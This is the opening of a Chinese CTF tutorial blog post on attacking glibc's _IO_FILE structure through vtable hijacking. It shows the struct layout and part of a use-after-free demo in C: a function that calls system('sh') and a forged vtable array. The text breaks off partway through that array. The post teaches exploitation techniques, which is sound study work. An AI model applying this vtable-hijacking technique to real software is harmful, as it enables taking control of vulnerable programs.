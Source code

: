 ```yaml
---
title: Pwn with File结构体（一）
authorId: hac425
tags:
  - file struct
categories:
  - ctf
date: 2017-12-07 16:33:00
---
```

### 前言


---
本文由 **本人** 首发于 先知安全技术社区：  https://xianzhi.aliyun.com/forum/user/5274/

---


利用 `FILE` 结构体进行攻击，在现在的 `ctf` 比赛中也经常出现，最近的 `hitcon2017` 又提出了一种新的方式。本文对该攻击进行总结。

### 正文
首先来一张 `_IO_FILE ` 结构体的结构

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1512636924331hh06dby3.png?imageslim)

`_IO_FILE_plus` 等价于 `_IO_FILE` + `vtable` 

调试着来看看(64 位)

![paste image](http://oy9h5q2k4.bkt.clouddn.com/151263718616115jrxm3q.png?imageslim)

`vtable` 指向的位置是一组函数指针
![paste image](http://oy9h5q2k4.bkt.clouddn.com/15126373161775c8fyo38.png?imageslim)
**利用 `vtable` 进行攻击**

通过一个 `uaf` 的示例代码来演示

```
#include <stdio.h>
#include <stdlib.h>

void pwn(void)
{
    system("sh");
}

// 用于伪造 vtable
void * funcs[] = {
    NULL, // "extra word"
    NULL, // DUMMY
    exit, // finish
    NULL, // overflow
    NULL, // underflow
    NULL, // uflow
    NULL, // pbackfail
    NULL, // xsputn
    NULL, // xsgetn
    NULL, // seekoff
    NULL, // seekpos
    NULL, // setbuf
    NULL, // sync
    NULL, // doallocate
    NULL, // read
    NULL, // write
```